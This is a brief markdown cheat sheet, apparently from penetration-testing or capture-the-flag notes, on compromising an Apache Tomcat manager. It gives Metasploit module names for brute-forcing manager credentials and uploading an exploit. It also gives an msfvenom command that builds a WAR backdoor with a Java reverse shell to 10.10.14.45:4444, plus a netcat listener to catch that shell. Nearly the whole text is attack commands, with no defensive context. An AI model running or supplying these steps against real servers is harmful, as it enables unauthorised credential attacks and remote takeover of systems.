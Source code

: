 # Method 1 (msfconsole)
1. Hack manager login credentials using 'auxiliary/scanner/http/tomcat_mgr_login'
2. Use 'exploit/multi/http/tomcat_mgr_upload'

# Method 2 (generate war file with reverse shell)
1. Generate WAR file backdoor using msfvenom
```
msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.45 LPORT=4444 -f war > payload.war
```

2. Reverse shell with netcat 
```
nc -lvnp 4444
```


